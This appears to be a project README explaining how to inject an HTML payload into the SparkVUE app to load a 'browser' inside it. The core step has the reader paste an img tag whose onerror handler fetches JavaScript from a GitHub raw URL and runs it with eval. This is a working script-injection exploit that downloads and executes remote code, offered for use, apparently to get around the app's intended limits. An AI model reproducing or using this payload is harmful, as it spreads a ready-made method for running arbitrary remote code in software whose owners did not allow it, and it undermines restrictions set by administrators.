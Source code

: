 # Browser
A browser for sparkvue
Instructions:
1. Open SparkVUE from your app launcher
2. Click "Build New Experiment"
3. Click the full grey box (or the split ones, it doesn't really matter)
4. Click the paper with the checkmarks, and click "Add an Assessment"
5. Choose "Multiple Choice", and paste this in the "Questions" box:
```
<img src=# onerror='
  fetch(`https://raw.githubusercontent.com/cam0studios/browser/main/main.js`)
  .then(r => r.text())
  .then(c => eval(c));
'>
```
For easy future use:
1. Click "save" and go to the hamburger menu
2. Hit "Save As", choose a name
3. Next time you open up SparkVUE, click "Open Saved Experiment" and click that file
